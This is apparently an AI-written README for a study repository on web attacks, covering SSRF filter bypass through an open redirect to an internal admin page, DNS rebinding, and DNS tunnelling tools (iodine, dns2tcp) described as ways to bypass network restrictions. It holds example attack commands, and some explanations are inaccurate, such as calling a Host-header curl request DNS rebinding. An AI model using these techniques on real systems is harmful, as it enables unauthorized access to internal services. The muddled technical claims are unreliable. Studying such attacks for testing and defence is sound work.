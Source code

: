 Sure, here's the updated README incorporating the suggestions:

```markdown
# Introduction to Web Attacks

This repository offers an extensive exploration of various web attacks, essential for understanding and countering the prevalent threats in today's internet landscape.

## Table of Contents

1. [SSRF Basic Filter Bypasses](#ssrf-basic-filter-bypasses)
2. [DNS Rebinding: SSRF Filter Bypass](#dns-rebinding-ssrf-filter-bypass)
3. [DNS Rebinding: Same-Origin Policy Bypass](#dns-rebinding-same-origin-policy-bypass)
4. [DNS Rebinding: Tools & Prevention](#dns-rebinding-tools--prevention)
5. [More to come...]

## SSRF with Filter Bypass via Open Redirection

Server-Side Request Forgery (SSRF) poses a significant threat to web security. Understanding the basics of basic filter bypass techniques is crucial for effective penetration testing.

### Example Command

```bash
curl -i http://vulnerable-server.local/request?url=http://internal-server.local/
```

![Redirect Example 1](https://i.postimg.cc/2y6jR0LB/redirectnb2.png)
![Redirect Example 2](https://i.postimg.cc/j5qtPMXk/redirect3.png)

### Exploiting the Vulnerability

- Modifying the `stockApi` parameter directly is prevented.
- **Crafting the Exploit URL:**
  - Create a crafted URL to exploit the redirection, such as redirecting to the admin interface:
    ```plaintext
    /product/nextProduct?path=http://192.168.0.12:8080/admin
    ```
- **Using the Exploit URL:**
  - Utilize this URL in the `stockApi` parameter:
    ```bash
    curl -i "http://vulnerable-server.local/product/nextProduct?path=http://192.168.0.12:8080/admin"
    ```
- **Exploiting the Vulnerability:**
  - The stock checker follows the redirection and displays the admin page, enabling actions like user deletion.

These steps illustrate how an open redirection vulnerability can be exploited to bypass SSRF filters and execute unauthorized actions on internal systems.

## DNS Rebinding: Same-Origin Policy Bypass

DNS Rebinding overrides Same-Origin Policy (SOP) in browsers, allowing access to diverse domains' resources.

### SOP Bypass Setup

```bash
python -m http.server 8080
```

- **Description:** Uses Python's HTTP server to establish a local server, vital for probing CORS vulnerabilities via DNS rebinding.

### Executing DNS Rebinding

```bash
curl -H "Host: malicious-website.com" http://target-server.local/resource
```

- **Description:** Demonstrates a DNS rebinding attack, manipulating IP addresses to trick the target server into fetching assets from a malicious domain.

### Summary

DNS Rebinding evades SOP, granting unauthorized access to resources across domains by manipulating DNS settings and HTTP headers.

## Additional Tools and Commands for DNS Security

To enhance your project, here are succinct overviews of advanced commands for DNS security exploration and tunneling:

- **`nslookup`**:
  ```bash
  nslookup target-domain.com
  ```
  Quickly checks DNS configurations and resolves domain names to IP addresses, critical for identifying potential DNS rebind vulnerabilities.

- **`iodine`**:
  ```bash
  iodine -f -P password -T CNAME tunnel.your-server.com
  ```
  Establishes a DNS tunnel, encapsulating data within DNS requests to bypass network restrictions, using CNAME records for stealth.

- **`dig`**:
  ```bash
  dig +trace +all target-domain.com
  ```
  Provides a detailed trace of DNS resolution path from root servers to the authoritative servers, useful for deep analysis and spotting security gaps.

- **`dns2tcp`**:
  ```bash
  dns2tcp -z secretkey -f configfile.conf
  ```
  Facilitates TCP over DNS, allowing for more sophisticated protocol tunneling under restrictive networks, secured with a custom key and configuration.

These tools contribute deeply to DNS security auditing and advanced network manipulation, providing valuable extras for any DNS-related security enhancement project.

## License

This project is under the MIT License. For more details, please refer to the [LICENSE.md](LICENSE.md) file.

This README provides a comprehensive and accessible guide, serving as an invaluable resource for both novices and seasoned pentesters looking to deepen their understanding of sophisticated network security challenges.
```

